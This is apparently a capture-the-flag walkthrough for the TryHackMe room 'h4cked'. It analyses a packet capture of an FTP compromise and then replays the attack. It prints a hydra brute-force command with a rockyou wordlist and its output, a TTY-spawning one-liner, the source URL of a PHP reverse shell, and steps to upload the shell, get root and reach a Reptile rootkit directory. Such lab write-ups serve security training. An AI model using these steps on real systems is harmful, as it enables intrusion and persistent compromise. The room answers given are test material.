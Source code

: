 ```yaml
---
title: Walkthrough - h4cked
published: true
---
```


Find out what happened by analysing a .pcap file and hack your way back into the machine

[https://tryhackme.com/room/h4cked](https://tryhackme.com/room/h4cked)

* * *

## It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it.

- Download pcap file.

* * *

## The attacker is trying to log into a specific service. What service is this?

```shell
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS 111111
530 Login incorrect.
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
```

* * *

## There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

- hydra

* * *

## The attacker is trying to log on with a specific username. What is the username?

- jenny

* * *

## What is the user's password?

- password123

* * *

## What is the current FTP working directory after the attacker logged in?

- /var/www/html

* * *

## The attacker uploaded a backdoor. What is the backdoor's filename?

```shell
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
SYST
215 UNIX Type: L8
PWD
257 "/var/www/html" is the current directory
PORT 192,168,0,147,225,49
200 PORT command successful. Consider using PASV.
LIST -la
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
200 SITE CHMOD command ok.
QUIT
221 Goodbye.
```

* * *

## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

- [http://pentestmonkey.net/tools/php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell)

* * *

## Which command did the attacker manually execute after getting a reverse shell? What is the computer's hostname?

- whoami & wir3

* * *

## Which command did the attacker execute to spawn a new TTY shell?

- python3 -c 'import pty; pty.spawn("/bin/bash")'

* * *

## Which command was executed to gain a root shell?

-  sudo su

* * *

## The attacker downloaded something from GitHub. What is the name of the GitHub project?

- reptile

* * *

## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

- rootkit

* * *

## The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chill-Hack]
└─$ hydra -l jenny -P /usr/share/seclists/Passwords/rockyou.txt 10.10.63.85 ftp               
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-26 13:40:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.63.85:21/
[21][ftp] host: 10.10.63.85   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-26 13:41:22
```

* * *

## Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.
Change the necessary values inside the web shell and upload it to the webserver

-

* * *

## Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

-

* * *

## Become root!

- Follow steps as attacker did

* * *

## Read the flag.txt file inside the Reptile directory

- cat flag.txt

* * * 